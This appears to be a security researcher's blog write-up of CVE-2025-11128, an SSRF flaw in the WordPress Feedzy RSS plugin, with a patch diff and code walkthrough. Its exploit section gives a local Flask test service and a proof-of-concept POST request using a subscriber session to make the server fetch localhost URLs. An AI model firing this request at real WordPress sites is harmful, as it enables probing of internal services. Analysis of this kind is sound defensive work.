



<!--more-->

## CVE & Basic Info

The Feedzy RSS Aggregator plugin – Feed to Post, Autoblogging, News & YouTube Video Feeds Aggregator for WordPress has a **Server-Side Request Forgery** vulnerability in all versions up to and including `5.1.0` via the function `'feedzy_sanitize_feeds'`. This allows an authenticated attacker with **Subscriber** level access or higher to perform web requests to arbitrary addresses originating from the web application and can be used to query information from internal services.

* **CVE ID**: [CVE-2025-11128](https://www.cve.org/CVERecord?id=CVE-2025-11128)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 5.1.0
* **Patched Versions**: 5.1.1
* **CVSS severity**: Low (5)
* **Required Privilege**: Subscriber
* **Product**: [WordPress Feedzy Plugin](https://wordpress.org/plugins/feedzy-rss-feeds/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Feedzy**: **5.1.0** (vulnerable) and **5.1.1** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect and compare differences between the two versions.

## Analysis

The **Feedzy RSS Aggregator** plugin registers a REST API endpoint at `/feedzy/v1/feed/` which allows users to submit a URL to fetch feed data.
However, in **version 5.1.0**, this endpoint is weakly protected and the URL filtering mechanism is unsafe, leading to a **Server-Side Request Forgery (SSRF)** vulnerability.

### Patch diff

```php {title="feedzy-rss-feeds-gutenberg-block.php - v5.1.0" hl_lines=[8,9,10,13,23,25,30]}
public function feedzy_register_rest_route() {
    register_rest_route(
        'feedzy/v1',
        '/feed/',
        array(
            'methods'             => 'POST',
            'callback'            => array( $this, 'feedzy_rest_route' ),
            'permission_callback' => function () {
                return is_user_logged_in();
            },
            'args'                => array(
                'url'      => array(
                    'sanitize_callback' => array( $this, 'feedzy_sanitize_feeds' ),
                ),
                'category' => array(
                    'sanitize_callback' => array( $this, 'feedzy_sanitize_categories' ),
                ),
            ),
        )
    );
}

public function feedzy_sanitize_feeds( $input ) {
    if ( count( $input ) === 1 ) {
        $feed = esc_url( $input[0] );
        return $feed;
    } else {
        $feeds = array();
        foreach ( $input as $item ) {
            $feeds[] = esc_url( $item );
        }
        return $feeds;
    }
}
```

In the vulnerable version:

* The endpoint only checks `is_user_logged_in()`, meaning any logged-in account (including Subscriber) can send requests.
* The function `feedzy_sanitize_feeds()` only uses `esc_url()` — this function sanitizes a URL string for display, but does not validate correctness or restrict access to internal addresses.


Therefore, an attacker can send the payload `url=http://localhost:8001/admin` to coerce the server to send a request to an internal service → SSRF.


```php {title="feedzy-rss-feeds-gutenberg-block.php - v5.1.1" hl_lines=[8,9,10,11,14,24,26,31,32]}
public function feedzy_register_rest_route() {
    register_rest_route(
        'feedzy/v1',
        '/feed/',
        array(
            'methods'             => 'POST',
            'callback'            => array( $this, 'feedzy_rest_route' ),
            'permission_callback' => function ( WP_REST_Request $request ) {
                $post_id = absint( $request->get_param( 'postId' ) );
                return current_user_can( 'edit_post', $post_id );
            },
            'args'                => array(
                'url'      => array(
                    'sanitize_callback' => array( $this, 'feedzy_sanitize_feeds' ),
                ),
                'category' => array(
                    'sanitize_callback' => array( $this, 'feedzy_sanitize_categories' ),
                ),
            ),
        )
    );
}

public function feedzy_sanitize_feeds( $input ) {
    if ( count( $input ) === 1 ) {
        $feed = wp_http_validate_url( $input[0] );
        return $feed;
    } else {
        $feeds = array();
        foreach ( $input as $item ) {
            if ( wp_http_validate_url( $item ) ) {
                $feeds[] = esc_url_raw( $item );
            }
        }
        return $feeds;
    }
}
```

The patch:

* Restricts REST API access using `current_user_can( 'edit_post', $post_id )`, allowing only **Editors** or **Admins** with the capability to call the endpoint.
* Replaces `esc_url()` with `wp_http_validate_url()`, ensuring the URL is valid, only accepts **http**/**https** protocols, and excludes internal addresses (`loopback`, `localhost`, `127.0.0.1...`).
* Uses `esc_url_raw()` to safely store the URL without re-encoding for display.


The `count()` in `feedzy_sanitize_feeds()` requires the input parameter to be **Countable** or an **array**. If a **string** is passed, PHP will throw an error:


**Exception has occurred.**
TypeError: count(): Argument #1 ($value) must be of type Countable|array, string given


Therefore, when sending a request to the endpoint, the `url` parameter must be passed as an **array**, for example:
`url[0]="http://example.com"`


### Vulnerable Code

`feedzy_rest_route()` is registered as the callback for the API:

```php {title="feedzy-rss-feeds-gutenberg-block.php - v5.1.1" hl_lines=[27]}
public function feedzy_rest_route( $data ) {
    $feed = $data;
    if ( isset( $data['feeds'] ) ) {
        $feed_category = $this->feedzy_sanitize_categories( $data['feeds'] );
        if ( $feed_category ) {
            $data['url'] = $feed_category;
        }
    }
    if ( ! empty( $data['url'] ) ) {
        $feed = $data['url'];
    } elseif ( ! empty( $data['category'] ) ) {
        $feed = $data['category'];
    }

    $url = '';
    if ( ! $feed instanceof \WP_REST_Request ) {
        $url = $feed;
    }

    $meta_args = array(
        'date_format' => get_option( 'date_format' ),
        'time_format' => get_option( 'time_format' ),
    );

    $instance = Feedzy_Rss_Feeds::instance();
    $admin    = $instance->get_admin();
    $feed     = $admin->fetch_feed( $url, '12_hours', array( '' ) );
    $feedy    = array();

    if ( ! $feed->init() ) {
        $feedy['error'] = __( 'Invalid Feed URL', 'feedzy-rss-feeds' );
        header( 'Content-Type: application/json; charset=' . get_option( 'blog_charset' ) );
        return $feedy;
    }

    if ( ( ! $feed->get_title() ) && ( ! $feed->get_title() ) && ( ! $feed->get_title() ) ) {
        $feedy['channel'] = null;
    } else {
        $feedy['channel'] = array(
            'title'       => ( ( $feed->get_title() ) ? $feed->get_title() : null ),
            'description' => ( ( $feed->get_description() ) ? $feed->get_description() : null ),
            'permalink'   => ( ( $feed->get_permalink() ) ? $feed->get_permalink() : null ),
        );
    }

    $feedy['items'] = array();
    $items          = $feed->get_items();
    $is_multiple    = ! empty( $feed->multifeed_url ) && is_array( $feed->multifeed_url );
    foreach ( $items as $item ) {
        $item_attrs = apply_filters( 'feedzy_item_filter', array(), $item );

        array_push(
            $feedy['items'],
            array(
                'title'       => ( ( $item->get_title() ) ? $item->get_title() : null ),
                'link'        => ( ( $item->get_permalink() ) ? $item->get_permalink() : null ),
                'creator'     => ( ( $item->get_author() ) ? $item->get_author()->get_name() : null ),
                'source'      => $is_multiple && $item->get_feed()->get_title() ? $item->get_feed()->get_title() : '',
                'pubDate'     => ( ( $item->get_date() ) ? $item->get_date( 'U' ) : null ),
                'date'        => ( ( $item->get_date() ) ? date_i18n( $meta_args['date_format'], $item->get_date( 'U' ) ) : null ),
                'time'        => ( ( $item->get_date() ) ? date_i18n( $meta_args['time_format'], $item->get_date( 'U' ) ) : null ),
                'description' => isset( $item_attrs['item_description'] ) ? $item_attrs['item_description'] : ( $item->get_description() ? $item->get_description() : null ),
                'thumbnail'   => $admin->feedzy_retrieve_image( $item ),
                'default_img' => apply_filters( 'feedzy_default_image', '', $url ),
                'price'       => isset( $item_attrs['item_price'] ) ? $item_attrs['item_price'] : null,
                'media'       => isset( $item_attrs['item_media'] ) ? $item_attrs['item_media'] : null,
                'categories'  => isset( $item_attrs['item_categories'] ) ? $item_attrs['item_categories'] : null,
            )
        );
    }

    header( 'Content-Type: application/json; charset=' . get_option( 'blog_charset' ) );
    $output = $feedy;
    return $output;
}
```

Logic of the function:

1. Receive and process input data

```php
$feed = $data;
if ( isset( $data['feeds'] ) ) {
    $feed_category = $this->feedzy_sanitize_categories( $data['feeds'] );
    if ( $feed_category ) {
        $data['url'] = $feed_category;
    }
}
```

* The function checks if the request contains the `feeds` parameter; it is **sanitized** via `feedzy_sanitize_categories()`.
* If valid, the result is assigned back to `$data['url']`.

2. Choose the data source `$feed` with priority

```php
if ( ! empty( $data['url'] ) ) {
    $feed = $data['url'];
} elseif ( ! empty( $data['category'] ) ) {
    $feed = $data['category'];
}
```

* If `url` exists → use it as the main source.
* If not → use `category`.

→ This is where user input (`url`) is forwarded to the feed fetching process.

3. Prepare variable `$url`

```php
$url = '';
if ( ! $feed instanceof \WP_REST_Request ) {
    $url = $feed;
}
```

* If `$feed` **is not an instance of WP_REST_Request**, it is assigned to `$url`.
* In practice `$feed` is usually **a URL string or an array of URLs** taken from the request.

4. Call core processing function

```php
$instance = Feedzy_Rss_Feeds::instance();
$admin    = $instance->get_admin();
$feed     = $admin->fetch_feed( $url, '12_hours', array( '' ) );
```

* Calls `Feedzy_Rss_Feeds::instance()` to get the main plugin instance.
* Uses `$admin->fetch_feed()` to **load the feed from the URL** (with a 12-hour cache).

  > ⚠️ This is where SSRF can occur if `$url` comes from uncontrolled input.

5. Check for RSS fetch errors

```php
if ( ! $feed->init() ) {
    $feedy['error'] = __( 'Invalid Feed URL', 'feedzy-rss-feeds' );
    return $feedy;
}
```

* If `init()` fails → returns JSON error `"Invalid Feed URL"`.

6. Extract channel information

```php
if ( ( ! $feed->get_title() ) && ... ) {
    $feedy['channel'] = null;
} else {
    $feedy['channel'] = array(
        'title' => $feed->get_title(),
        'description' => $feed->get_description(),
        'permalink' => $feed->get_permalink(),
    );
}
```

* If the feed has no title → set `null`.
* Otherwise → create a standard channel info object (title, description, link).

7. Iterate through each item in the feed

```php
foreach ( $items as $item ) {
    $item_attrs = apply_filters( 'feedzy_item_filter', array(), $item );
    array_push(
        $feedy['items'],
        array(
            'title'       => ( ( $item->get_title() ) ? $item->get_title() : null ),
            'link'        => ( ( $item->get_permalink() ) ? $item->get_permalink() : null ),
            'creator'     => ( ( $item->get_author() ) ? $item->get_author()->get_name() : null ),
            'source'      => $is_multiple && $item->get_feed()->get_title() ? $item->get_feed()->get_title() : '',
            'pubDate'     => ( ( $item->get_date() ) ? $item->get_date( 'U' ) : null ),
            'date'        => ( ( $item->get_date() ) ? date_i18n( $meta_args['date_format'], $item->get_date( 'U' ) ) : null ),
            'time'        => ( ( $item->get_date() ) ? date_i18n( $meta_args['time_format'], $item->get_date( 'U' ) ) : null ),
            'description' => isset( $item_attrs['item_description'] ) ? $item_attrs['item_description'] : ( $item->get_description() ? $item->get_description() : null ),
            'thumbnail'   => $admin->feedzy_retrieve_image( $item ),
            'default_img' => apply_filters( 'feedzy_default_image', '', $url ),
            'price'       => isset( $item_attrs['item_price'] ) ? $item_attrs['item_price'] : null,
            'media'       => isset( $item_attrs['item_media'] ) ? $item_attrs['item_media'] : null,
            'categories'  => isset( $item_attrs['item_categories'] ) ? $item_attrs['item_categories'] : null,
        )
    );
}
```

8. Return JSON result

```php
header( 'Content-Type: application/json; charset=' . get_option( 'blog_charset' ) );
return $feedy;
```

* Each post (item) is extracted and mapped into a JSON array containing: title, link, author, date, description, thumbnail, etc.


The returned content contains the specified fields → This shows the data fetched from the URL is a structured file containing the above fields, so we cannot read an arbitrary file.


We analyze `fetch_feed()` to see what file it actually reads:

```php {title="feedzy-rss-feeds-admin-abstract.php - v5.1.0" hl_lines=[4,33,52]}
public function fetch_feed( $feed_url, $cache = '12_hours', $sc = '' ) {
    // Load SimplePie if not already.
    do_action( 'feedzy_pre_http_setup', $feed_url );
    if ( function_exists( 'feedzy_amazon_get_locale_hosts' ) ) {
        $amazon_hosts     = feedzy_amazon_get_locale_hosts();
        $is_amazon_source = false;
        if ( is_array( $feed_url ) ) {
            $url_host         = array_map(
                function ( $url ) {
                    return 'webservices.' . wp_parse_url( $url, PHP_URL_HOST );
                },
                $feed_url
            );
            $url_host         = array_diff( $url_host, $amazon_hosts );
            $is_amazon_source = ! empty( $amazon_hosts ) && empty( $url_host );
        } else {
            $url_host         = 'webservices.' . wp_parse_url( $feed_url, PHP_URL_HOST );
            $is_amazon_source = ! empty( $amazon_hosts ) && in_array( $url_host, $amazon_hosts, true );
        }
        if ( $is_amazon_source ) {
            $feed = $this->init_amazon_api(
                $feed_url,
                isset( $sc['refresh'] ) ? $sc['refresh'] : '12_hours',
                array(
                    'number_of_item' => isset( $sc['max'] ) ? $sc['max'] : 5,
                    'no-cache'       => false,
                )
            );
            return $feed;
        }
    }
    // Load SimplePie Instance.
    $feed = $this->init_feed( $feed_url, $cache, $sc ); // Not used as log as #41304 is Opened.

    // Report error when is an error loading the feed.
    if ( is_wp_error( $feed ) ) {
        // Fallback for different edge cases.
        if ( is_array( $feed_url ) ) {
            $feed_url = array_map( 'html_entity_decode', $feed_url );
        } else {
            $feed_url = html_entity_decode( $feed_url );
        }

        $feed_url = $this->get_valid_source_urls( $feed_url, $cache );

        $feed = $this->init_feed( $feed_url, $cache, $sc ); // Not used as log as #41304 is Opened.

    }

    do_action( 'feedzy_post_http_teardown', $feed_url );

    return $feed;
}
```

If `feedzy_amazon_get_locale_hosts` exists then it executes the logic inside the `if` and returns `$feed`.

```php
if ( function_exists( 'feedzy_amazon_get_locale_hosts' ) ) {
    ...
    return $feed
}
```

Searching for `feedzy_amazon_get_locale_hosts` across the plugin directory shows that this function **is not declared or defined anywhere**.
Therefore, the check `if ( function_exists( 'feedzy_amazon_get_locale_hosts' ) )` will always **return `false`**, causing that branch to be **skipped** and execution to **continue to call `init_feed()`** then **check for errors** and return the feed.



```php {title="feedzy-rss-feeds-admin-abstract.php - v5.1.0" hl_lines=[3,5,18,31,34]}
private function init_feed( $feed_url, $cache, $sc, $allow_https = FEEDZY_ALLOW_HTTPS ) {
    ...
    $feed = new Feedzy_Rss_Feeds_Util_SimplePie( $sc );
    $feed->set_file_class( 'WP_SimplePie_File' );
    $default_agent = $this->get_default_user_agent( $feed_url );
    $feed->set_useragent( apply_filters( 'http_headers_useragent', $default_agent ) );
   

    // Do not use force_feed for multiple URLs.
    $feed->force_feed( apply_filters( 'feedzy_force_feed', ( is_string( $feed_url ) || ( is_array( $feed_url ) && 1 === count( $feed_url ) ) ) ) );

    do_action( 'feedzy_modify_feed_config', $feed );

    $cloned_feed = clone $feed;

    // set the url as the last step, because we need to be able to clone this feed without the url being set
    // so that we can fall back to raw data in case of an error.
    $feed->set_feed_url( $feed_url );

    // Allow unsafe html.
    if ( defined( 'FEEDZY_ALLOW_UNSAFE_HTML' ) && FEEDZY_ALLOW_UNSAFE_HTML ) {
        $feed->strip_htmltags( false );
    }

    if ( isset( $_SERVER['HTTP_USER_AGENT'] ) ) {
        // phpcs:ignore WordPressVIPMinimum.Variables.RestrictedVariables.cache_constraints___SERVER__HTTP_USER_AGENT__
        $set_server_agent = sanitize_text_field( wp_unslash( $_SERVER['HTTP_USER_AGENT'] ) . SIMPLEPIE_USERAGENT );
        $feed->set_useragent( apply_filters( 'http_headers_useragent', $set_server_agent ) );
    }

    $feed->init();

    ...
    return $feed;
}
```

The `init_feed()` function is responsible for initializing and configuring the **SimplePie** object, setting up some basic info, and calling `$feed->init()` to issue the request.

```php {title="SimplePie.php - v5.1.0" hl_lines=[29,43,44,45,46,47,48,49,50]}
public function init() {
    // Check absolute bare minimum requirements.
    if (!extension_loaded('xml') || !extension_loaded('pcre')) {
        $this->error = 'XML or PCRE extensions not loaded!';
        return false;
    }
    // Then check the xml extension is sane (i.e., libxml 2.7.x issue on PHP < 5.2.9 and libxml 2.7.0 to 2.7.2 on any version) if we don't have xmlreader.
    elseif (!extension_loaded('xmlreader')) {
        static $xml_is_sane = null;
        if ($xml_is_sane === null) {
            $parser_check = xml_parser_create();
            xml_parse_into_struct($parser_check, '<foo>&amp;</foo>', $values);
            xml_parser_free($parser_check);
            $xml_is_sane = isset($values[0]['value']);
        }
        if (!$xml_is_sane) {
            return false;
        }
    }
    ...
    if ($this->feed_url === null && $this->raw_data === null) {
        return false;
    }

    $cache = false;
    if ($this->enable_cache) {
        $cache = $this->get_cache($this->feed_url);
    }
    if (($fetched = $this->fetch_data($cache)) === true) {
        return true;
    } elseif ($fetched === false) {
        return false;
    }

    [$headers, $sniffed] = $fetched;

    if (empty($this->raw_data)) {
        $this->error = "Empty response from `$this->feed_url`";
        return false;
    }

    // Parse
    foreach ($this->get_possible_encodings($headers, $sniffed) as $encoding) {
        $utf8_data = $this->convert_to_utf8($this->raw_data, $encoding);
        $parser = $this->registry->create(Parser::class);
        if ($parser->parse($utf8_data, 'UTF-8', $this->permanent_url)) {
            $this->data = $parser->get_data();
            return true;
        }
    }

    return false;
}
```

=> We see the requested file is expected to be XML

```php
$this->fetch_data($cache)
```

This is where the HTTP request to the user-supplied URL is performed.

### Flow


graph TD
A["User input via /feedzy/v1/feed (REST API)"] --> B["feedzy_sanitize_feeds()"]
B --> C["esc_url() → no internal host validation"]
C --> D["feedzy_rest_route()"]
D --> E["Feedzy_Rss_Feeds::instance()"]
E --> F["$admin->fetch_feed(url)"]
F --> G{"feedzy_amazon_get_locale_hosts() exists?"}
G -- No --> H["init_feed()"]
H --> I["Feedzy_Rss_Feeds_Util_SimplePie::init()"]
I --> J["fetch_data(cache)"]
J --> K["HTTP request to user-controlled URL → SSRF"]


## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, request, send_from_directory, Response
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/feed', methods=['GET'])
def feed():
    xml_content = """<?xml version="1.0" encoding="UTF-8"?>
    <rss version="2.0">
      <channel>
        <title>Example Feed</title>
        <link>https://example.com</link>
        <description>This is a sample RSS feed generated by Flask.</description>
        <item>
          <title>First item</title>
          <link>https://example.com/item1</link>
          <description>Hello world!</description>
        </item>
        <item>
          <title>Second item</title>
          <link>https://example.com/item2</link>
          <description>Another entry.</description>
        </item>
      </channel>
    </rss>"""
    
    return Response(xml_content, mimetype='application/xml')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Login with a Contributor account
2. Send a POST request with the URL pointing to the local service:

```php
POST /wp-json/feedzy/v1/feed HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2Flocalhost%2Fwp-admin%2F&reauth=1
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cdf597bffe4c239d9e871b2ac98a2d427df0fb82dc7a09099bc026fbbff641ad1; wp-settings-time-2=1761542750; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-time-3=1761591693; wp-settings-3=mfold%3Do; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cd42e05305965ebb0efad0d1374e9552219c641afb6452531634d3b4e414c6a48; wp_lang=en_US

url[0]=http://localhost:8001/feed&category=cat
```

**Result**:




If trying `url` with a file that is not XML, we get the response:




## Conclusion

The **CVE-2025-11128** vulnerability in the **Feedzy RSS Aggregator** plugin stems from unsafe handling of URLs in the `/feedzy/v1/feed` REST API. The function `feedzy_sanitize_feeds()` only used `esc_url()` and did not validate addresses, allowing an attacker with **Subscriber** privileges to send SSRF requests to internal services.

The **5.1.1** patch fixes this by using `wp_http_validate_url()`, tightening API access via `current_user_can('edit_post', $post_id)` and replacing `esc_url()` with `esc_url_raw()`.

## Key takeaways

* `esc_url()` is not sufficient to validate incoming URLs.
* REST APIs must be properly restricted with appropriate permissions.
* URLs must be validated and filtered to prevent SSRF to internal networks.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Feedzy Plugin <= 5.1.0 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/feedzy-rss-feeds/vulnerability/wordpress-feedzy-rss-feeds-lite-plugin-5-1-0-authenticated-subscriber-server-side-request-forgery-vulnerability)
